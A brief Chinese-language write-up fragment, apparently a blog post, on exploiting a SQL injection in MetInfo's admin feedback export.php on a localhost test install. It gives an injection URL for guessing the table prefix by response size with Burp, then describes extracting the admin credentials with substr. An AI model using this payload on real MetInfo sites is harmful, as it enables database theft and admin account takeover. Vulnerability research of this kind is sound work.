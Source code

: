 ![](img/0217104753ca02b2379f0eab73a56b3ba9dc7925.png)

可以看到两个文件的大小是不一样滴，给大家看看这个 excel 里到底有啥区别

![](img/02171058c00638526f5d6037d50f7821260d8d5c.png)

step1：暴力破解 metinfo 前缀

用 brup 进行破解，这个不用我多解释了把，根据返回大小

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

step2： 破解 admin 账户

还是 brup，用 substr 一个个来

